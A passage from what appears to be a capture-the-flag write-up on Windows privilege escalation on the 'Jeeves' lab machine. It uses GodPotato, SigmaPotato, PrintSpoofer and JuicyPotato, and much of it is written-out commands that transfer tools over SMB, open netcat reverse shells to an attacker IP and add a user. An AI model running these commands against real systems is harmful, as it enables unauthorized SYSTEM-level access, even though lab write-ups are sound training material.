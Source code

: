 ```bash
sudo impacket-smbserver share -smb2support /home/kali/HTBLabs/Jeeves #Windows
copy \\10.10.14.2\share\GodPotato-NET4.exe #Windows
copy \\10.10.14.2\share\nc64.exe #Windows
```

![image.png](image%2010.png)

![image.png](image%2011.png)

Now we can execute the actual shell command:

```bash
c:\Users\kohsuke\tools\GodPotato-NET4.exe -cmd "c:\Users\kohsuke\tools\nc64.exe -e cmd.exe 10.10.14.2 135"
```

Unfortunately it didn’t work:

![image.png](image%2012.png)

- [**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe)

I tried SigmaPotato attack but it didn’t work either:

```powershell
.\SigmaPotato.exe "net user khan password /add”
```

![image.png](image%2013.png)

- [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)

Try PrintSpoofer:

```powershell
.\PrintSpoofer.exe -c "c:\Users\kohsuke\tools\nc64.exe 10.10.14.2 135 -e cmd”
```
- [**JuicyPotato**](https://github.com/ohpe/juicy-potato)

> JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 17763 onwards. 
{: .prompt-warning }

That means we can still use JuicyPotato.
```bash
echo 'C:\Users\kohsuke\tools\nc64.exe -e cmd.exe 10.10.14.2 9003' > priv.bat
```

Transfer both JuicyPotato.exe and priv.bat files to Windows machine using again SMB share method.

Run:
```powershell
JuicyPotato.exe -l 9003 -p priv.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
> CLSIDs of Wuauserv, Wsearch, XblGameSave and BITS services (COM components) are reliable to escalate the privileges to NT AUTHORITY\SYSTEM.
{: .prompt-warning }
